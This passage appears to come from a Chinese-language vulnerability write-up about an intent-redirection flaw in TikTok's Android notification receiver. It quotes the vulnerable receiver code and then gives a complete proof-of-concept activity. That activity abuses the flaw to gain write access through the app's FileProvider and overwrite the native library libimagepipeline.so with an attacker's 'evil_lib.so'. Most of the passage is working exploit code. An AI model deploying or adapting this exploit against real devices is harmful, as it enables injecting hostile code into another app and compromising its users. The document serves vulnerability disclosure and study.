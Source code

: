 回顾下漏洞代码段，会获取`contentIntentURI`字段，用于后续跳转
```
Intent intent_contentIntentURI = (Intent)intent.getParcelableExtra("contentIntentURI");
if(("notification_clicked".equals(action)) && intent_contentIntentURI != null) {
    try {
        intent_contentIntentURI.getDataString();
        context.startActivity(intent_contentIntentURI);
    }
    catch(Exception unused_ex) {
    }
}
```

如下即可实现指定应用获取FileProvider的文件读写权限，从`NotificationBroadcastReceiver`跳到Poc的`MainActivity`的时候就获得了对FileProvider的文件读写权限，此处指定的文件是`/data/user/0/com.zhiliaoapp.musically/lib-main/libimagepipeline.so`，同时指定了Action为`TIKTOK_ATTACK_NotificationBroadcastReceiver`，会去调用`else`分支，将我们的So文件写入上面指定的路径
```
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        handleIntent(getIntent());
    }
    
    @Override
    protected void onNewIntent(Intent intent) {
        super.onNewIntent(intent);
        handleIntent(intent);
    }

    private void handleIntent(Intent i) {
        if(!"TIKTOK_ATTACK_NotificationBroadcastReceiver".equals(i.getAction())) {
            // NotificationBroadcastReceiver.onReceive()调用startActivity()使用的Intent，用于Poc获取FileProvider的文件读写权限
            Intent next = new Intent("TIKTOK_ATTACK_NotificationBroadcastReceiver");
            next.setClassName(getPackageName(), getClass().getCanonicalName());
            next.setFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
            next.setData(Uri.parse("content://com.zhiliaoapp.musically.fileprovider/name/data/user/0/com.zhiliaoapp.musically/lib-main/libimagepipeline.so"));

            // 发往NotificationBroadcastReceiver的Intent
            Intent intent = new Intent("notification_clicked");
            intent.setClassName("com.zhiliaoapp.musically", "com.ss.android.ugc.awemepushlib.os.receiver.NotificationBroadcastReceiver");
            intent.putExtra("contentIntentURI", next);
            sendBroadcast(intent);
        }
        else {
            try {
                OutputStream outputStream = getContentResolver().openOutputStream(i.getData());
                InputStream inputStream = getAssets().open("evil_lib.so");
                IOUtils.copy(inputStream, outputStream);
                inputStream.close();
                outputStream.close();
            }
            catch (Throwable th) {
                throw new RuntimeException(th);
            }
        }
    }
}
```